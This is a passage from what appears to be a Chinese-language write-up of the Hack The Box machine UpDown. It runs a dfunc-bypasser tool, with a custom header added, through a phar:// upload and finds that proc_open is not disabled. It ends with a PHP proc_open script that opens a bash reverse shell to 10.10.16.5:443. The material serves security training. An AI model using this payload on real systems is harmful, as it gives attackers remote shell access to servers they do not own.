 + 这里可以使用`dfunc-bypasser`工具检查可使用的函数,优化`dfunc-bypasser.py`请求头：

    ```
    if(args.url):
        url = args.url
        phpinfo = requests.get(url,headers={"Special-dev":"only4dev"}).text
    ```

    ```
    # 因为文件被删除，重新上传

    ┌──(kali㉿kali)-[~/桌面/HTB/UpDown/dfunc-bypasser]
    └─$ python2 dfunc-bypasser.py --url http://dev.siteisup.htb/?page=phar://uploads/1cc38126e3d570ad6d7ba65ca5f6c9a9/test.phar/test


                                    ,---,     
                                    .'  .' `\   
                                    ,---.'     \  
                                    |   |  .`\  | 
                                    :   : |  '  | 
                                    |   ' '  ;  : 
                                    '   | ;  .  | 
                                    |   | :  |  ' 
                                    '   : | /  ;  
                                    |   | '` ,/   
                                    ;   :  .'     
                                    |   ,.'       
                                    '---'         


                authors: __c3rb3ru5__, $_SpyD3r_$


    Please add the following functions in your disable_functions option: 
    proc_open
    If PHP-FPM is there stream_socket_sendto,stream_socket_client,fsockopen can also be used to be exploit by poisoning the request to the unix socket
    ```

    + 这里显示`proc_open`函数没有被禁用

### `proc_open`脚本利用

+ 利用脚本

    ```
    <?php
            $descspec = array(
                    0 => array("pipe", "r"),
                    1 => array("pipe", "w"),
                    2 => array("pipe", "w")
            );
            $cmd = "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.16.5/443 0>&1'";
            $proc = proc_open($cmd, $descspec, $pipes);
    ?>
    ```
